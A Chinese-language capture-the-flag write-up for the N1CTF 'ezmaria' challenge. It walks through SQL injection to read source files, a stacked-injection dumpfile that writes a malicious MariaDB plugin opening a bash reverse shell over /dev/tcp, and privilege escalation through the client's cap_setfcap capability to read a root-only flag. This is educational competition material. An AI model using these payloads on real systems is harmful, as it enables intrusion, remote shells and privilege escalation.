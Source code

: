 # N1CTF ezmaria writeup
- 第一步  
    尝试用load_file读取源码
    
    ```
    id=0 union select 1, load_file('/var/www/html/index.php')
    ```
    发现`if ($_REQUEST["secret"] === "lolita_love_you_forever")`会执行一些命令，ps的结果
    ```
    mariadbd --skip-grant-tables --secure-file-priv= --datadir=/mysql/data --plugin_dir=/mysql/plugin --user=mysql
    ```
    可以看到mysql的plugin目录是`/mysql/plugin`以及`secure-file-priv`是空的，过滤了outfile但没有过滤dumpfile，而且使用的是multi_query，可以进行堆叠注入  
    
- 第二步  
    写插件并且加载，反弹shell  
    恢复mysql的表，因为用skip-grant-tables启动
    
    ```
    CREATE DATABASE IF NOT EXISTS mysql;
    use mysql;
    CREATE TABLE IF NOT EXISTS plugin ( name varchar(64) DEFAULT '' NOT NULL, dl varchar(128) DEFAULT '' NOT NULL, PRIMARY KEY (name) ) engine=Aria transactional=1 CHARACTER SET utf8mb3 COLLATE utf8mb3_general_ci comment='MySQL plugins';
    ```
    编写插件
    ```
    #include <stdlib.h>
    #include <stdio.h>
    #include <sys/types.h>
    #include <unistd.h>
    void lshell(){
        
        system("bash -c 'bash -i >& /dev/tcp/ip/port 0>&1 &'");
    }
    class LOLITA {
    public:
        LOLITA(){
            lshell();
        }
    };
    LOLITA lolita;
    LOLITA* _mysql_plugin_interface_version_ = &lolita;
    //compile: g++ expso.cpp -shared -fPIC -o exp.so
    ```
    将编译出来的so文件用dumpfile写到/mysql/plugin/目录
    ```
    f = open("exp.so", 'rb')
    xid = "1; select unhex('" + ''.join(['%02X' % b for b in bytes(f.read())]) + "') into dumpfile '/mysql/plugin/lolita.so';"
    res = requests.post(url, data={
        "id": xid
    })
    print(res.text)
    ```
    最后安装插件反弹shell  
    ```INSTALL PLUGIN plugin_name SONAME 'lolita.so'```
    
- 第三步  
    可以看到/flag没有权限读取，找suid和cap
    
    ```
    find / -user root -perm -4000 -print 2>/dev/null
    getcap -r / 2>/dev/null
    
    /usr/bin/mariadb cap_setfcap=ep
    ```
    可以看到/usr/bin/mariadb有cap_setfcap权限
    参考`https://blog.csdn.net/xdy762024688/article/details/132237969`  
    也就是我们能给其他文件设置cap  
    给mariadb写个插件
    
    ```
    #include <stdlib.h>
    #include <stdio.h>
    #include <sys/types.h>
    #include <unistd.h>
    #include <sys/capability.h>


    void lshell(){
        cap_t caps = cap_from_text("cap_dac_override=eip");
        cap_set_file("/bin/cat", caps);
        printf("setcap finished\n");
    }
    
    class LOLITA {
    public:
        LOLITA(){
            lshell();
        }
    };
    LOLITA _mysql_client_plugin_declaration_;
    //compile: g++ expcap.cpp -shared -fPIC -o cap.so -lcap2
    ```
    将编译出来的文件传到靶机（dd < /dev/tcp/ip/port > cap.so）  
    加载这个so让/bin/cat获取cap_dac_override（忽略文件权限）的特权  
    ```
    mariadb --plugin-dir=. --default-auth=cap
    cat /flag
    ```

- 赛后总结  
    hint没放好，`skip-grant-tables`这一步很容易想不到，最后还是有8个队伍做出来了  